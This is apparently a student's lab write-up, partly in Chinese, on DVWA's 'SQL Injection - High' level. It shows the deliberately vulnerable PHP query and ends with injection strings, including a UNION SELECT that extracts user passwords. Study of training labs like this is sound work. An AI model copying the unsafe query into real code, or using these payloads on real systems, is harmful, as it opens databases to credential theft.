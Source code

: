 # SQL Injection - High

## View Source

```PHP
<?php

if( isset( $_SESSION [ 'id' ] ) ) {
    // Get input
    $id = $_SESSION[ 'id' ];

    // Check database
    $query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id' LIMIT 1;";
    $result = mysqli_query($GLOBALS["___mysqli_ston"], $query ) or die( '<pre>Something went wrong.</pre>' );

    // Get results
    while( $row = mysqli_fetch_assoc( $result ) ) {
        // Get values
        $first = $row["first_name"];
        $last  = $row["last_name"];

        // Feedback for end user
        echo "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";
    }

    ((is_null($___mysqli_res = mysqli_close($GLOBALS["___mysqli_ston"]))) ? false : $___mysqli_res);        
}

?> 
```

- 透過 *Session* 裡面的 *id* 來查詢資料庫

### View `session-input.php`

1. `docker exec -it dvwa /bin/bash`
2. `vim /var/www/html/vulnerabilities/sqli/session-input.php`
- https://github.com/digininja/DVWA/blob/master/vulnerabilities/sqli/session-input.php
- 將 *POST* 收到的 *id* 放進 *Session* 中

## Code Review

- *SQL* 查詢語句多了 `LIMIT 1`、不會直接彈出錯誤訊息而是改成 `Something went wrong.`
> This is very similar to the low level, however this time the attacker is inputting the value in a different manner. The input values are being transferred to the vulnerable query via session variables using another page, rather than a direct GET request.
- 其實我不懂 *High Level* 的考點是什麼
- 是模擬開發者可能覺得 *session* 就很安全嗎？？？

## Answer

- 同 *Low Level*
- 要注入的 *SQL* 語句是要寫在超連結點開的新視窗
	- `127.0.0.1/vulnerabilities/sqli/session-input.php`

### Example

```
' OR '1'='1' #
' OR '1'='1' -- 
' UNION SELECT user, password FROM users #
```